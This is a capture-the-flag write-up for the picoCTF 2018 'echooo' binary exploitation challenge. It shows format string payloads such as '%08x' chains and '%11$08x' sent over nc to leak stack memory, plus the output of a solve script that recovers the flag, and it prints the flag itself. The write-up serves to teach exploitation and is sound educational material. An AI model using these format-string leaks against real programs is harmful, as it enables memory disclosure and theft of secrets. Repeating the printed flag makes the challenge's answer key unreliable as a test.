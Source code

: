 # echooo
Binary Exploitation - 300 points

## Challenge 
> This [program](echo) prints any input you give it. Can you leak the flag? 

> Connect with nc 2018shell2.picoctf.com 34802.

> [Source](echo.c).

## Hint
> If only the program used puts...


## Solution

Format string exploit

- https://stackoverflow.com/a/7459758
- http://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html

---

Check that the stack is printed properly

	$ nc 2018shell2.picoctf.com 34802
	Time to learn about Format Strings!
	We will evaluate any format string you give us with printf().
	See if you can get the flag!
	
	> %x
	40
	
	> ABCD  %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x %08x
	ABCD  00000040 f76e85a0 08048647 f771fa74 00000001 f76f7490 ffb8dcd4 ffb8dbdc 0000048f 08cd8008 44434241 > 8x 00000040 f76e85a0 08048647 f771fa74
	
	> ABCD %11$08x
	ABCD 44434241

So we know that offset `11` points to `buf[64]`.

And to reach `flag[64]`, we need to read past 64 bytes of `buf`.

So start the offset from `11 + 64 / 4` and the offset for flag is at `27`.

	echooo $ python solve.py 
	[+] Opening connection to 2018shell2.picoctf.com on port 34802: Done
	Received: 6f636970
	Progress: pico
	Received: 7b465443
	Progress: picoCTF{
	Received: 6d526f66
	Progress: picoCTF{foRm
	Received: 735f7434
	Progress: picoCTF{foRm4t_s
	Received: 6e695274
	Progress: picoCTF{foRm4t_stRin
	Received: 615f7347
	Progress: picoCTF{foRm4t_stRinGs_a
	Received: 445f6552
	Progress: picoCTF{foRm4t_stRinGs_aRe_D
	Received: 65476e61
	Progress: picoCTF{foRm4t_stRinGs_aRe_DanGe
	Received: 73753072
	Progress: picoCTF{foRm4t_stRinGs_aRe_DanGer0us
	Received: 3866335f
	Progress: picoCTF{foRm4t_stRinGs_aRe_DanGer0us_3f8
	Received: 64656362
	Progress: picoCTF{foRm4t_stRinGs_aRe_DanGer0us_3f8bced
	Received: 000a7d33
	Progress: picoCTF{foRm4t_stRinGs_aRe_DanGer0us_3f8bced3}
	\x00
	[*] Closed connection to 2018shell2.picoctf.com port 34802
	echooo $ 

## Flag

	picoCTF{foRm4t_stRinGs_aRe_DanGer0us_3f8bced3}
